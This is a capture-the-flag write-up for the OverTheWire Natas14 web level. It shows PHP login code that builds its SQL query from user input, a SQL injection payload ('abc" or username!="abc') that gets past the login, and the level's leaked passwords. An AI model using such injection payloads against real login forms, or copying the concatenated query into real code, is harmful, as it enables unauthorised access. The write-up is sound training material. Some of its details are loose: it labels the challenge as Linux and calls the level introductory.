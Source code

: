 # CTF Writeup - **OverTheWire Natas13 - Natas14**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas13 - Natas14
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 13-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use inspect element to troubleshoot and find the flag.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas14
Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
URL:      http://natas14.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for login credentials as input.  But we dont know anything about it, So lets input some random image and check it out. 

```bash
Username: abc
Password: abc
Submit
```

Now we see that we get access denied. Lets try to get the proper login credentials by viewing the source code. 

```bash
# if(array_key_exists("username", $_REQUEST)) {
#     $link = mysqli_connect('localhost', 'natas14', '<censored>');
#     mysqli_select_db($link, 'natas14');

#     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
#     if(array_key_exists("debug", $_GET)) {
#         echo "Executing query: $query<br>";
#     }

#     if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
#             echo "Successful login! The password for natas15 is <censored><br>";
#     } else {
#             echo "Access denied!<br>";
#     }
#     mysqli_close($link);
# } else {
# ?>
```

We can see that there is a small piece of code that is executed when we click on submit. That takes out input username, password and appends it to an sql string and checks if the return value has greater than 1 then its shows the password. Lets try playing with the input for usernames as showin below.

```bash
username: abc" OR \"a
password: 
SQL: SELECT * from users where username=\""abc" OR \"a"\" and password=\"""\""
# Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/natas/natas14/index.php on line 24
# Access denied!
```

Now, we are getting error as its unable to find a entry in the table.  we can see that we need to give proper input such that the resulting sql query fetches more than one record. In order to achieve that, we know that out inputs are getting appended after `where` this elminates the option of `select *` to be inputed. One thing we can do is we can search for the users with username `abc` and those without `abc` together as shown below.  

```bash
username: abc" or username!="abc
password: abc" or password!="abc
SQL: SELECT * from users where username=\""abc" or username!="abc"\" and password=\""abc" or password!="abc"\""
# The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```

## Flag

**Flag:** SdqIqBsFcz3yotlNYErZSZwblkm0lrvx


---

## Lessons Learned

It was a simple challenge. I would be best if you can use the owasp zap to see the sql query that is being sent. 